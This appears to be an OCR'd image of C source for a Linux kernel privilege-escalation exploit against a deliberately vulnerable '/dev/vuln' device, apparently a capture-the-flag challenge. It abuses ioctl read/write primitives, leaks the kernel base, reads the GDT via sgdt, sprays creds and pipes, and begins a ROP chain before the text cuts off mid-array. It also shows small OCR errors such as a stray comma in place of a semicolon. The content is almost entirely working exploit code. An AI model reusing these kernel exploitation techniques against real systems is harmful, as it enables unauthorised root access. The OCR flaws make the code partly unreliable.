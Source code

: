 ```c
}

int main(int argc, char** argv) {
    if (argc == 1) {
		int fd;
		int victim;

		fd = open("/dev/vuln", 0);

		req_t req;
			victim = open("/proc/self/comm", 0);
		req.fd = victim;

		ioctl(fd, CMD_READ, &req);
		req.val = req.val & 0xfffffffffffff000;
		req.val -= 0x6000;
		ioctl(fd, CMD_WRITE, &req);
		close(victim),	
    } else {
    	long kbase;
		long heap;

		int fd;
		int victim;
		int p[0x100][2];

		long fake_struct_addr; 
		size_t fake_struct[15] = {};

		req_t req;
		char buf[0x50];

		char gdt[10];
		long gdt_addr;
		long sp0;

		kbase = strtoul(argv[1], NULL, 0) - LEAK;  
		printf("kbase @ %p\n", kbase);

		asm volatile (
			".intel_syntax noprefix\n"
			"sgdt [%0]\n"
			".att_syntax prefix\n"
			:
			: "r" (&gdt)
			:
		);
		gdt_addr = *(long*) &gdt[2];
		sp0 = gdt_addr + 0x1f58;
		fake_struct_addr = sp0;

		fd = open("/dev/vuln", 0);

		spray_creds(0x600);

		for (int i=0; i<0x30; i++)
			victim = open("/proc/self/comm", 0);

		for(int i=0; i<0x100; i++) 
		pipe(p[i]);

		size_t rop[11] = {
			kbase + POP_RDI_RET,
```
